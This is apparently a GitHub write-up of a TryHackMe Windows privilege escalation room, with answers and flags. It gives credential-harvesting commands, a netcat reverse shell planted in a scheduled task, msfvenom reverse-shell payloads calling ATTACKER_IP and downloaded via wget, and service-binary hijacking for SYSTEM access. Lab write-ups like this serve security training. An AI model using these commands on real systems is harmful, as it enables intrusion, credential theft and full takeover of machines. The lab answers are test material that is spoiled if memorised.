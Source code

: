 # Windows Privilege Escalation

### Windows Privilege Escalation
- Users that can change system configurations are part of which group? `Administrators`
- The SYSTEM account has more privileges than the Administrator user (aye/nay) `aye`

### Harvesting Passwords from Usual Spots
- A password for the julia.jones user has been left on the Powershell history. What is the password? <br />
Open powershell and run: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`<br />
![image](https://github.com/user-attachments/assets/e4b7008f-1c12-4681-9215-9e4f01753be4)<br />
`ZuperCkretPa5z`
- A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user? <br />
Run the following command: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString` <br />
![image](https://github.com/user-attachments/assets/8395e424-e937-47e8-8fa4-85716d494cf9)<br />
`098n0x35skjD3`
- There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop. <br />
![image](https://github.com/user-attachments/assets/f30bfd39-b6fa-430c-ae6d-3f29f573f0e1)<br />
So let's open a terminal with these credentials; run `runas /savecred /user:mike.katz cmd.exe`: and get the flag <br />
![image](https://github.com/user-attachments/assets/a507f4b3-23e7-4ce5-8048-5b235a5f0d18)<br />
`THM{WHAT_IS_MY_PASSWORD}`
- Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user? <br />
Run `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`: <br />
![image](https://github.com/user-attachments/assets/ee75771b-193b-4717-a68a-f3d76558bfd0)<br />
`CoolPass2021`

### Other Quick Wins
- What is the taskusr1 flag?<br />
If we run `schtasks /query /tn vulntask /fo list /v`:<br />
![image](https://github.com/user-attachments/assets/3642d6aa-877b-4223-bcad-b22e79dc94af)<br >
we can see the same scheduled file described in this task. So let's just follow the steps. So, set up a netcat listener on your attackbox with `nc -lnvp 4444`. Now modify the scheduled task with the following command: `echo c:\tools\nc64.exe -e cmd.exe 10.10.192.202 4444 > C:\tasks\schtask.bat` (Remember to run this on cmd, not powershell). <br />
Now we can run the task with the following command `schtasks /run /tn vulntask` to spawn a reverse shell: <br />
![image](https://github.com/user-attachments/assets/0726bbbc-3910-4a5a-9361-f3a79b677f5a)<br />
So we can get the flag: <br />
![image](https://github.com/user-attachments/assets/6fd04d11-a13f-4f30-8796-5ff2cb5920c1)<br />


### Abusing Service Misconfigurations
- Get the flag on svcusr1's desktop. <br />
Follow the steps described in the task. So if we run `icacls C:\PROGRA~2\SYSTEM~1\WService.exe`<br />
![image](https://github.com/user-attachments/assets/b90186a0-a524-4236-8518-def13024ddb0)<br />
We can see that the EVERYONE group has modify permissions on this service. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account. <br />
So now let's create a reverse shell using msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`. Now open a web server on the attack box: `python3 -m http.server 8080`. And download it from the windows machine (using powershell): `wget http://ATTACKER_IP:8080/rev-svc.exe -O rev-svc.exe`: <br />
![image](https://github.com/user-attachments/assets/3373ddd3-a9c0-484c-9d44-39b1f871a705)<br />
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

      cd C:\PROGRA~2\SYSTEM~1\
      move WService.exe WService.exe.bkp
      move C:\Users\thm-unpriv\Desktop\rev-svc.exe WService.exe
      icacls WService.exe /grant Everyone:F

Now start a reverse listener on the attack box: `nc -lvp 4445`, and execute the service(from cmd): 

    C:\> sc stop windowsscheduler
    C:\> sc start windowsscheduler

![image](https://github.com/user-attachments/assets/33b15ca5-6750-4790-90a7-d5d29603dd76)<br />
`THM{AT_YOUR_SERVICE}`

- Get the flag on svcusr2's desktop.<br />
Following the steps on the task, if we run `sc qc "disk sorter enterprise"`<br />
![image](https://github.com/user-attachments/assets/196bffbe-5b69-4d1d-935c-3552622a13ad)<br />
We can see that the service is unquoted, and also is store inside C:\MyPrograms\. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using `icacls`.
So again, create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe` and transfer it to the windows machine. Open a netcat listener `nc -lnvp 4446`. Now on the windows machine(powershell):

      move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
      icacls C:\MyPrograms\Disk.exe /grant Everyone:F
And on cmd: 

      sc stop "disk sorter enterprise"
      sc start "disk sorter enterprise"
![image](https://github.com/user-attachments/assets/100489b4-da77-4ee5-b4f5-a8db1a86c427)<br />
`THM{QUOTES_EVERYWHERE}`
      
- Get the flag on the Administrator's desktop. <br />
If we run `accesschk64.exe -qlc thmservice`: <br />
![image](https://github.com/user-attachments/assets/d749c7d0-a0e0-4209-9a00-ceaa7c76a6c0)<br />
Here we can see that the BUILTIN\\Users group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service. So, lets create a payload with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`. <br />
Remember to grant permissions to Everyone to execute your payload: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`. Now from cmd: `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`, and, after setting a netcat listener, restart the service to get the flag: `THM{INSECURE_SVC_CONFIG}`

### Abusing dangerous privileges
- Get the flag on the Administrator's desktop.

### Abusing vulnerable software
- Get the flag on the Administrator's desktop.

### 

### 
